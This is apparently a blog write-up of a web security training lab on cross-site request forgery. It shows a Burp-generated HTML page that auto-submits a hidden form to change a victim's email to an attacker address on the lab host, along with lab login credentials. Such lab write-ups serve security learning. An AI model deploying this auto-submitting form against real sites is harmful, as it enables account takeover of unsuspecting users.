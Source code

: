 ```yaml
---
layout: post
title:  "CSRF vulnerability with no defenses"
date:   2024-10-13 12:20:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## Solution

Just like any other labs, this lab is actually kinda easy because this lab is of practitioner level and the same functionality is vulnerable to CSRF attack and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-39.png)

As you can observe in the above image, there is a lack of CSRF token being there in both the header and in the post body 

Let's generate the CSRF POC through the burp engagement tools 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b006e04b4243b80d1bc53003b0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Paste the above POC into the exploit server, and then `Store it -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-40.png)